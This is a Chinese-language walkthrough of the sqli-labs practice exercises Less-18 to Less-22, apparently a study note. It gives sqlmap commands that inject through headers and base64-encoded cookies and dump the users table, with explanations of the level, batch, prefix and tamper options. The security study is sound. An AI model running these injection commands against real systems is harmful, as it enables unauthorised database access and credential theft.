





## Less-18

失败，能通过--dbs成功查询到数据库，无法通过-D security --tables查询到数据表，换用手工注入

## Less-19

`python sqlmap.py -r less19.txt --level=3`

`python sqlmap.py -r less19.txt --level=3 --dbs`

`python sqlmap.py -r less19.txt --level=3 -D security --tables`

`python sqlmap.py -r less19.txt --level=3 -D security -T users --dump`

成功

>说明：-u用于传入URL

-r 文件名：读取本地保存的完整HTTP请求报文，里面包含全部请求头，请求方法，POST数据，sqlmap可以直接对请求头里面的字段做注入测试

sqlmap 默认 level=1，只测试 URL、POST、Cookie 里的参数，不会扫描 User‑Agent、Referer 这类 HTTP 头部。--level=3 及以上，才会对 User‑Agent、Referer 请求头进行注入探测。

## Less-20

在不拦截的情况下输入账号密码成功登录，然后拦截，剩余过程同前

`python sqlmap.py -r less20.txt --dbs --level=2 --batch`

`python sqlmap.py -r less20.txt -D security --tables --level=2 --batch`

`python sqlmap.py -r less20.txt -D security -T users --dump --level=2 --batch`

`--batch`:自动回答 sqlmap 弹出的 Y/N 交互提问，直接选用默认选项，不用手动敲 yes/no，全程自动跑，不用盯着控制台输入东西。

## Less-21

先登录成功再抓包，与less-21区别是需要转base64编码，比手工注入更简便，不需要手动转换base64编码

`python sqlmap.py -r less21.txt --dbs --level=2 --batch --prefix="')" --tamper=base64encode.py`

`python sqlmap.py -r less21.txt -D security --tables --level=2 --batch --prefix="')" --tamper=base64encode.py`

`python sqlmap.py -r less21.txt -D security -T users --dump --level=2 --batch --prefix="')" --tamper=base64encode.py`

level=1：默认，只测试 GET、POST 参数。
level=2：额外增加测试 Cookie 参数。
更高等级 level3 会测试 User‑Agent、Referer 请求头

自动把 sqlmap 生成的 SQL payload 整体做 Base64 编码，再填入 Cookie 参数发送。

## Less-22

和Less-21只有符号闭合不同，把`')`改为`"`即可